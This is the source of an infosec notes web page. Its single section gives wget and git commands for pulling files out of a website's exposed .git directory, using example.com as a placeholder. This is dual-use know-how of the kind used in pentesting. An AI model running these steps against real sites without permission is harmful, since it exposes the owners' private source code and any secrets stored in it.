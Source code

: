 ```yaml
---
layout: page

title: Short Notes

category: infosec
see_my_category_in_header: true

permalink: /infosec/unstructured_notes.html

published: true
---
```


<article class="markdown-body" markdown="1">

## Content
<div class="spoiler"><div class="spoiler-title">
    <i>Table of contents</i>
</div><div class="spoiler-text" markdown="1">

* TOC
{:toc}

</div>
</div>

## Git repo disembowel

    git init
    wget http://example.com/.git/index -O .git/index
    
    git ls-files
        # Listing of git files
    
    git checkout interest-file.txt
        # error with file hash: 01d355b24a38cd5972d1317b9a2e7f6218e15231

    wget http://example.com/.git/objects/xx/yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy -O .git/objects/xx/yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy

    git checkout interest-file.txt

    # You have file

</article>
